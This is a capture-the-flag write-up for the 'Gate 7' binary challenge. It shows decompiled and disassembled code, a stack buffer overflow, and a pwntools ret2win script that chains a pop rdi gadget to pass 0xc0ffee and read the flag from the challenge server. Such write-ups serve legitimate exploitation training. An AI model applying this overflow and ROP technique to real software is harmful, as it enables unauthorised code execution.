


# 『Gate 7』



# 『The challenge』



And the chall: [chall-download](./src/dis.tar.gz)

## 『Highlight vulnerability and parts of interesting』

Something interesting in here:

```
0040120b    int64_t open_gate(int64_t arg1)

00401228        if (arg1 != 0xc0ffee)
004012d5            return puts(str: "Access denied.")
004012d5        
0040123d        int32_t fd = open(file: "/flag", oflag: 0)
0040123d        
00401249        if (fd s< 0)
00401250            perror(s: "open /flag")
0040125a            _exit(status: 1)
0040125a            noreturn
0040125a        
00401273        void buf
00401273        ssize_t nbytes = read(fd, &buf, nbytes: 0x80)
00401281        close(fd)
00401281        
0040128b        if (nbytes s>= 0 && nbytes == write(fd: 1, &buf, nbytes))
004012c4            _exit(status: 0)
004012c4            noreturn
004012c4        
004012b0        perror(s: "read/write flag")
004012ba        _exit(status: 1)
004012ba        noreturn


004012d6    int32_t main(int32_t argc, char** argv, char** envp)

004012f7        setvbuf(fp: __TMC_END__, buf: nullptr, mode: 2, size: 0)
00401301        puts(str: "Gate 7 keypad. Enter access code:")
00401317        void var_38
00401317        read_full(0, &var_38, 0x80)
00401322        return 0
```

So this thing is ret2win with parameter (or i can call it ret2param). The main get buffer overflow until 0x80 and you need argumen for win function to get the flag

## 『Solving Challenge』
> solve by Lylera

Well classical need some parameter. You must need `pop rdi; ret` in here to regist your argumen to get in after you jump to win function

to get `rdi` you can use ROPgadget: https://github.com/jonathansalwan/ropgadget. And then use `cyclic` to gain the offset. You can use dissambly to get the offset:

```asm
pwndbg> disas main
Dump of assembler code for function main:
   0x00000000004012d6 <+0>:     push   rbp
   0x00000000004012d7 <+1>:     mov    rbp,rsp
   0x00000000004012da <+4>:     sub    rsp,0x30 #-> this one
   0x00000000004012de <+8>:     mov    rax,QWORD PTR [rip+0x2d83]        # 0x404068 <stdout@GLIBC_2.2.5>
   0x00000000004012e5 <+15>:    mov    ecx,0x0
   0x00000000004012ea <+20>:    mov    edx,0x2
   0x00000000004012ef <+25>:    mov    esi,0x0
   0x00000000004012f4 <+30>:    mov    rdi,rax
   0x00000000004012f7 <+33>:    call   0x401080 <setvbuf@plt>
   0x00000000004012fc <+38>:    mov    edi,0x402038
   0x0000000000401301 <+43>:    call   0x401040 <puts@plt>
   0x0000000000401306 <+48>:    lea    rax,[rbp-0x30] #-> this one too
   0x000000000040130a <+52>:    mov    edx,0x80
   0x000000000040130f <+57>:    mov    rsi,rax
   0x0000000000401312 <+60>:    mov    edi,0x0
   0x0000000000401317 <+65>:    call   0x401196 <read_full>
   0x000000000040131c <+70>:    mov    eax,0x0
   0x0000000000401321 <+75>:    leave
   0x0000000000401322 <+76>:    ret
```

then get rdi memory and ret too, after that jump to `open_gate`. (or you can do auto if you are lazy like me :> but must check first!!)

```py
from pwn import *

elf = context.binary = ELF('./gate7')
rop = ROP(elf)
# p = process()
p = remote('gate7.wolvctf-2026.kctf.cloud', 1337)

rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
open_gate = elf.sym['open_gate']

# payload = flat( 'A'*56, ret, rdi, 0xc0ffee, open_gate )
payload = flat('A'*56, rdi, 0xc0ffee, open_gate+1)

p.sendlineafter('Gate 7 keypad. Enter access code:\n', payload.ljust(0x80, b'\x00'))
p.interactive()
```

### 『Flag』

```
wctf{p0p_rd1_ret_th3_gate_1s_0p3n}
```

### 『Reference』

- https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/exploiting-calling-conventions
- https://www.youtube.com/watch?v=vO1Uj2v3r7I
- https://github.com/jonathansalwan/ropgadget